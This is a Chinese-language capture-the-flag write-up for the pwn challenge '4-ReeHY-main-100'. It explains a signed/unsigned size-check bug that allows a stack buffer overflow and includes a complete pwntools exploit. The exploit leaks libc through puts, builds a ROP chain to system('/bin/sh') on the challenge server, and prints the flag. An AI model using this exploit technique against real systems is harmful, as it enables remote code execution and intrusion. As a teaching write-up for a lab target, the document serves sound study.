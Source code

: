 # 4-ReeHY-main-100

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=c0e53c01-0323-495d-90dc-85eaa97ce2fe_2)

我还是用个简单的方法做吧，unlink那个真的看不明白，题做得太少了。简单做法还是能学到东西的，但不多。(･_･;

看看main，难得这么看见这么清晰的菜单实现。

```c
void Main(void)
{
  undefined4 uVar1;
  SetUp();
  do {
    PrintMenu();
    uVar1 = GetInput();
    switch(uVar1) {
    default:
      puts("Invalid Choice!");
      break;
    case 1:
      Create();
      break;
    case 2:
      Delete();
      break;
    case 3:
      Edit();
      break;
    case 4:
      Show();
      break;
    case 5:
      puts("bye~bye~ young hacker");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  } while( true );
}
```

然后checksec。这两步操作我现在闭着眼睛都会做。

-   Arch:     amd64-64-little
    <br>RELRO:    Partial RELRO
    <br>Stack:    No canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x400000)

简单做法只用看Create函数创建时的问题。跟unlink做法比起来完全不是一个难度等级，怀疑是出题失误。

```c
void Create(void)
{
  undefined local_98 [128];
  void *local_18;
  int local_10;
  uint local_c;
  if (DAT_006020ac < 5) {
    puts("Input size");
    local_c = GetInput();
    if ((int)local_c < 0x1001) {
      puts("Input cun");
      local_10 = GetInput();
      if (local_10 < 5) {
        local_18 = malloc((long)(int)local_c);
        puts("Input content");
        if ((int)local_c < 0x71) {
          read(0,local_98,(ulong)local_c);
          memcpy(local_18,local_98,(long)(int)local_c);
        }
        else {
          read(0,local_18,(ulong)local_c);
        }
        *(uint *)((long)local_10 * 4 + DAT_006020c0) = local_c;
        *(void **)(&DAT_006020e0 + (long)local_10 * 0x10) = local_18;
        *(undefined4 *)(&DAT_006020e8 + (long)local_10 * 0x10) = 1;
        DAT_006020ac = DAT_006020ac + 1;
        fflush(stdout);
      }
    }
  }
  return;
}
```

对于ghidra玩家来说，这题的关键是把鼠标移到local_c上。为什么呢？因为这样你就会发现local_c是一个unsigned integer，意味着它没有符号，负数会被看作是一个超级大的数。在if ((int)local_c < 0x1001)和local_18 = malloc((long)(int)local_c);和memcpy(local_18,local_98,(long)(int)local_c);中都将其转换为了有符号整数，除了那句read，是一个无符号长整数。再仔细看看，local_98也就是read的目标变量，是在栈上的，且有大小。成功从5级堆题降级为3级栈题。直接上exp吧，看出来后还是很简单的（但是我最开始没看出来，菜狗）

```python
from pwn import *
p = remote('61.147.171.105', 55434)
def send_choice(payload):
	p.sendlineafter('$ ', payload)
def create_exploit(payload):
	send_choice('A')
	send_choice('1')
	p.sendlineafter('Input size\n', '-1')
	p.sendlineafter('Input cun\n', '-1')
	p.sendlineafter('Input content\n', payload)
pop_rdi_ret = 0x400da3
puts_got =6299680
puts_plt = 4196048
main_addr = 0x400C8C
nIndexCun = 10
nInputSize = 0
leak_head = b'A'*0x88 + p32(nIndexCun) + p32(nInputSize) + b'A'*8
payload = leak_head + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
create_exploit(payload)
puts_addr = u64(p.recvn(6).ljust(8, b'\x00'))
system_offset=-0x2a300
bin_sh_offset=0x11d6c7
payload = leak_head + p64(pop_rdi_ret) + p64(puts_addr+bin_sh_offset) + p64(puts_addr+system_offset) + p64(main_addr)
create_exploit(payload)
p.interactive()
```

攻防世界给的libc好像不对啊，我用在线网站一个一个查的偏移。这次溢出填充字符有一些不能乱填，因为下面还有个memcpy，要用local_c；再下面还要用local_10，而这两个参数都是在local_98上面的，要小心点。

至于堆玩法……下次我不偷懒了，真的,很快我就会学了(･･;)。

- ### Flag
  > cyberpeace{ba0c20b5283bbf26f048009302ac57b6}